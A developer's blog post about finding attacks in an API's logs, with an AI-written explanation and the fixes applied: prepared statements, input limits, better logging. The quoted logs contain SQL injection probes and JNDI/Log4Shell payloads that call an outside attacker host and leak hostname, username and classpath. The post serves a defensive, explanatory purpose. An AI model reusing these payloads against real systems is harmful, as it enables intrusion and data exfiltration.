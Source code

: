 ```yaml
---
title: "My Server Is Under Attack"
description: "Security is matter: SQL injection, remote code execution, hack .env file..."
date: 2024-03-17T14:29:00+08:00
lastmod: 2024-03-17
tags: [devtools, devops, security, sql]
categories: Blog
featured_image: "/posts/2024/my-server-is-under-attack/web-security-is-matter.png"
images: ["/posts/2024/my-server-is-under-attack/og-server-attack.png"]
---
```


## How I Found It

I was using the app to check if there are some orders on last Friday. But I felt it was very slow. I was thinking if the [API service](/posts/2023/using-github-action-and-systemd-to-deploy-express-app/) or the database is down.

They were up. 

But when I checked the logs. I found someone was trying to hack the service.

## Attack Methods

They are some very common attack methods. like SQL Injection, remote code execution or listing `env` files.

### SQL Injection

Here is part of the log:

```
Mar 15 16:48:15 lightsh ibkapi[1420640]: GET /products?q=%27%20union%20select%201--%20&count=30&cat=21&p=1 500 2.012 ms - 60
Mar 15 16:48:16 lightsh ibkapi[1420640]: GET /products?q=%25bf%2527%25bf%27%2527%2522%27%22%5C%5C%255C%250d%250a%2523%23&count=30&cat=21&p=1 500 4.498 ms - 60
Mar 15 16:48:16 lightsh ibkapi[1420640]: GET /products?q=&count=30&cat=21&p=1 200 5.655 ms - 75
Mar 15 16:48:16 lightsh ibkapi[1420640]: GET /products?q=%bf%27%bf'%27%22'"\\%5C%0d%0a%23%23&count=30&cat=21&p=1 500 16.973 ms - 60
Mar 15 16:49:07 lightsh ibkapi[1420640]: GET /products?q=&count=30&cat=21&p=%29%29%20OR%20%28SELECT%2AFROM%28SELECT%28SLEEP%283%29%29%29hmmm%29%20limit%201%23 400 0.843 ms - 165
Mar 15 16:49:17 lightsh ibkapi[1420640]: GET /products?q=%bf%27%bf'%27%22'"\\%5C%0d%0a%23%23&count=30&cat=21&p=1 - - ms - -
Mar 15 16:49:27 lightsh ibkapi[1420640]: GET /products?q=&count=30&cat=21&p=%20union%20select%201%2Cmd5%283141592657%29--%20 400 0.787 ms - 149
Mar 15 16:49:27 lightsh ibkapi[1420640]: GET /products?q=&count=30&cat=21&p=%20OR%20%28SELECT%2AFROM%28SELECT%28SLEEP%284%29%29%29iiet%29%20limit%201%23 400 0.847 ms - 163
```

Claude.ai told me this about the log:

> Based on the log file, it appears that the hacker was attempting to perform an SQL injection attack against the `/products` endpoint. SQL injection is a technique where malicious SQL statements are inserted into application entry fields to gain unauthorized access to the database.
>
> The log shows several suspicious requests with SQL injection payloads in the `q` (query), `count`, `cat` (category), and `p` (page) parameters. Some common indicators of SQL injection attempts are:
>
> 1. Single quotes (`'`) surrounding values.
> 2. Use of SQL keywords like `UNION`, `SELECT`, `SLEEP`, etc.
> 3. Comments denoted by `--` or `#`.
> 4. Encoded payloads with characters like `%bf`, `%5C`, etc.
>
> The hacker seems to be trying various SQL injection techniques, such as:
>
> - Union-based SQL injection to retrieve data from the database.
> - Boolean-based blind SQL injection using the `SLEEP()` function to cause time delays.
> - Attempting to bypass input validation and filters.
>

The good thing is the service didn't accept most of the hacking requests. It returned `500` or `400` status after checking users' input. Thanks to the well developed web framework.

But due to the quick development requirement. Some of the code didn't follow some security practices.

### Remote Code Execution

Here is more from the log:

```
Mar 15 17:31:35 lightsh ibkapi[1457656]: GET /orders/?status=-1&count=10&p=${jndi:rmi://183.47.120.213:1099/bypass4ab2c832c1448624ddd652713f2b4b1b-/-${hostName}} 400 1.655 ms - 201
Mar 15 17:31:35 lightsh ibkapi[1457656]: GET /orders/?status=-1&count=10&p=${jndi:rmi://hostname-${hostName}.username-${sys:user.name}.javapath-${sys:java.class.path}.f4a52b7ecb98e763293fb54f33f9bec8.4j2.mauu.mauu.me/} 400 1.722 ms - 258
Mar 15 17:31:35 lightsh ibkapi[1457656]: GET /orders/?status=-1&count=${jndi:rmi://183.47.120.213:1099/bypassac9360b825294b91b646092c425c6bbc-/-${hostName}}&p=1 400 1.673 ms - 204
Mar 15 17:31:36 lightsh ibkapi[1457656]: GET /orders/?status=-1&count=${jndi:rmi://hostname-${hostName}.username-${sys:user.name}.javapath-${sys:java.class.path}.d601c9c9ea5954abc0cb6524f1ef38b1.4j2.mauu.mauu.me/}&p=1 400 1.714 ms - 261
Mar 15 17:31:36 lightsh ibkapi[1457656]: GET /orders/?status=-1&count=${jndi:ldap://hostname-${hostName}.username-${sys:user.name}.javapath-${sys:java.class.path}.28a0de6ce19ccf80f25549df1f122931.4j2.mauu.mauu.me/}&p=1 400 1.781 ms - 262
Mar 15 17:31:36 lightsh ibkapi[1457656]: GET /orders/?status=-1&count=10&p=${jndi:ldap://183.47.120.213:1389/jdk185bf1616da873b6fb2299bbc60897c1c1-/-${hostName}} 400 1.749 ms - 201
Mar 15 17:31:36 lightsh ibkapi[1457656]: GET /orders/?status=${jndi:ldap://hostname-${hostName}.username-${sys:user.name}.javapath-${sys:java.class.path}.05d82899be802b7b14abf20f5a33c934.4j2.mauu.mauu.me/}&count=10&p=1 400 2.063 ms - 257
Mar 15 17:31:36 lightsh ibkapi[1457656]: GET /orders/?status=${jndi:rmi://hostname-${hostName}.username-${sys:user.name}.javapath-${sys:java.class.path}.4a8e6c20ca6a4eca49521e213836ea1f.4j2.mauu.mauu.me/}&count=10&p=1 400 1.689 ms - 256
Mar 15 17:31:37 lightsh ibkapi[1457656]: GET /orders/?status=-1&count=10&p=${jndi:ldap://hostname-${hostName}.username-${sys:user.name}.javapath-${sys:java.class.path}.d9d20bac90980d15fa1378aa79ecf5b6.4j2.mauu.mauu.me/} 400 1.779 ms - 259
Mar 15 17:31:37 lightsh ibkapi[1457656]: GET /orders/?status=${jndi:ldap://183.47.120.213:1389/jdk182e89f41a6b436965af1a90ca38171439-/-${hostName}}&count=10&p=1 400 3.987 ms - 199
Mar 15 17:31:37 lightsh ibkapi[1457656]: GET /orders/?status=-1&count=${jndi:ldap://183.47.120.213:1389/jdk18d153c35bfaed3f0f17ee6fa0f8d0c558-/-${hostName}}&p=1 400 1.681 ms - 204
Mar 15 17:31:37 lightsh ibkapi[1457656]: GET /orders/?status=${jndi:rmi://183.47.120.213:1099/bypasseb349f918c3fe86e4b5676793614e952-/-${hostName}}&count=10&p=1 400 1.755 ms - 199
```

> Based on the additional log entries, it appears the hacker was attempting a remote code execution attack against the application using Java deserialization vulnerabilities and the Java Naming and Directory Interface (JNDI) protocol.
>
> The log shows requests with URLs containing suspicious parameter values starting with `${jndi:rmi://` and `${jndi:ldap://`. These are JNDI injection payloads that attempt to make the application deserialize untrusted data from a remote server controlled by the attacker.
>
> Here's a breakdown of what the hacker was trying to achieve:
>
> 1. The attacker is using JNDI injection payloads that reference a remote server at the IP address `183.47.120.213` on ports `1099` (RMI) and `1389` (LDAP).
> 2. The payloads include obfuscated strings like `bypass4ab2c832c1448624ddd652713f2b4b1b`, `f4a52b7ecb98e763293fb54f33f9bec8`, etc. These could be encoded remote class names or serialized objects that the attacker wants the application to deserialize.
> 3. The payloads also include system properties like `${hostName}`, `${sys:user.name}`, and `${sys:java.class.path}`, which attempt to retrieve sensitive information about the server environment.
> 4. The attacker is targeting different endpoints like `/orders/` and using different parameters (`status`, `count`, `p`) to bypass input validation and find an entry point for the JNDI injection attack.
>
> If successful, this attack could allow the attacker to execute arbitrary code on the server, leading to complete system compromise.

## Fixing It?

I've made these updates of the service:

### Using Prepared Statements

I'm using `mysql2` lib for the data access. But some sql statements were using string concatenation which wolud be a risk for SQL injection.

As the docs described I switched to [Prepared Statements](https://sidorares.github.io/node-mysql2/docs/examples/queries/prepared-statements/select) like this:

```js
try {
  const sql = 'SELECT * FROM `users` WHERE `name` = ? AND `age` > ?';
  const values = ['Page', 45];

  const [rows, fields] = await connection.execute(sql, values);

  console.log(rows);
  console.log(fields);
} catch (err) {
  console.log(err);
}
```

### Limiting The User Inputs

There is a search feature but it didn't have a limitation (e.g. length, special characters).

### Logging

As you can see in the previous log. I didn't log some important client info e.g. IP. So I added them.

## Enough?

I don't think there is a final solution for security. You'd keep eyes on your system.

Questions here:

1. Have you ever suffered from the security issues?
2. Do you have any interesting stories about fighting hackers?



